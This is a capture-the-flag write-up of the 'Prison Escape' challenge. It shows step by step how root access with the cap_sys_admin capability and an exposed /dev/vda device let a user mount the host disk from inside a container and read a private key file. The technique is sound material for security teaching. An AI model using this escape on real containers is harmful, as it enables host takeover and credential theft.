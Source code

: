 ```yaml
---
sidebar_position: 2
---
```

# Prison Escape

### Background

This task asks us to escape a running container and find a file on the host operating system.

### Challenge
:::info Challenge Text
*Difficulty:* ★★★✰✰

Escape from a container. Get hints for this challenge from Bow Ninecandle in the Elfen Ring. What hex string appears in the host file /home/jailer/.ssh/jail.key.priv?
:::


### Answer

Once we're inside our container prison, we start out by checking what we're allowed to do as root:

```bash
grinchum-land:/mnt$ sudo -l
User samways may run the following commands on grinchum-land:
    (ALL) NOPASSWD: ALL
```

Great! We have carte blanche to sudo whatever we'd like as root. Next, we'll check our list of Unix capabilities. Normally in a container these should be as restrictive as possible, but let's hope someone was lazy here:

```bash
grinchum-land:/mnt$ grep Cap /proc/1/status
CapInh: 0000000000000000
CapPrm: 0000003fffffffff
CapEff: 0000003fffffffff
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000
```

To decode this gibberish, we can use the ```capsh``` utility (on another host that has it)

![Capsh decoded output, showing that we have cap_sys_admin](./assets/img/er2-1.png)

Among the items in this list, the most useful to us by far is ```cap_sys_admin```. The [capabilities man page](https://man7.org/linux/man-pages/man7/capabilities.7.html) has more info, but this capability allows us to perform a very, very wide array of actions which would be useful for system administration. It just so happens that many of those are also capabilities that would help us break out of our current jail.

---

Going through a [helpful list of container escape strategies](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation), we don't have to look long before we notice that a disk device is, for some reason, listed under ```/dev/```:

```bash
grinchum-land:/mnt$ ls -l /dev/
total 0
crw-r--r-- 1 root root  10, 235 Jan  7 00:59 autofs
crw------- 1 root root  10, 234 Jan  7 00:59 btrfs-control
lrwxrwxrwx 1 root root       11 Jan  7 00:59 core -> /proc/kcore
...
crw-rw---- 1 root tty    7,  70 Jan  7 00:59 vcsu6
# highlight-start
brw-rw---- 1 root disk 254,   0 Jan  7 00:59 vda
# highlight-end
crw------- 1 root root  10,  63 Jan  7 00:59 vsock
crw-rw-rw- 1 root root   1,   5 Jan  7 00:59 zero
```

Normally the disk device ```/dev/vda``` wouldn't be mounted inside of the container. However, we all know that developers will complain to senior management if they have to do an ounce of additional work, so here we are. Since we verified earlier that we have the ```CAP_SYS_ADMIN``` capability (which helpfully lets us mount and unmount things), we can now easily mount this device and find the flag:

```
grinchum-land:~$ sudo mount /dev/vda /mnt/
grinchum-land:~$ ls -l /mnt/
.dockerenv  etc/        lib64/      mnt/        run/        tmp/        
bin/        home/       libx32/     opt/        sbin/       usr/        
boot/       lib/        lost+found/ proc/       srv/        var/        
dev/        lib32/      media/      root/       sys/        
grinchum-land:~$ ls -la /mnt/home/jailer/
total 12
drwxr-xr-x 3 root root 4096 Dec  1 19:12 .
drwxr-xr-x 3 root root 4096 Dec  1 19:12 ..
drwxr-xr-x 2 root root 4096 Dec  1 19:12 .ssh
grinchum-land:~$ ls -la /mnt/home/jailer/.
./    ../   .ssh/ 
grinchum-land:~$ ls -la /mnt/home/jailer/.ssh/
total 12
drwxr-xr-x 2 root root 4096 Dec  1 19:12 .
drwxr-xr-x 3 root root 4096 Dec  1 19:12 ..
-rw-rw-rw- 1 root root 1555 Nov  3 23:36 jail.key.priv
-rw-rw-rw- 1 root root    0 Nov  7 18:54 jail.key.pub
grinchum-land:~$ cat /mnt/home/jailer/.ssh/jail.key.priv 

                Congratulations! 

          You've found the secret for the 
          HHC22 container escape challenge!

                     .--._..--.
              ___   ( _'-_  -_.'
          _.-'   `-._|  - :- |
      _.-'           `--...__|
   .-'                       '--..___
  / `._                              \
   `. `._               one           |
     `. `._                           /
       '. `._    :__________....-----'
         `..`---'    |-_  _- |___...----..._
                     |_....--'             `.`.
               _...--'                       `.`.
          _..-'                             _.'.'
       .-'             step                _.'.'
       |                               _.'.'
       |                   __....------'-'
       |     __...------''' _|
       '--'''        |-  - _ |
               _.-''''''''''''''''''-._
            _.'                        |\
          .'                         _.' |
          `._          closer           |:.'
            `._                     _.' |
               `..__                 |  |
                    `---.._.--.    _|  |
                     | _   - | `-.._|_.'
          .--...__   |   -  _|
         .'_      `--.....__ |
        .'_                 `--..__
       .'_                         `.
      .'_    082bb339ec19de4935867   `-.
      `--..____                        _`.
               ```--...____          _..--'
                     | - _ ```---.._.'
                     |   - _ |
                     |_ -  - |
                     |   - _ |
                     | -_  -_|
                     |   - _ |
                     |   - _ |
                     | -_  -_|
grinchum-land:~$ 
```
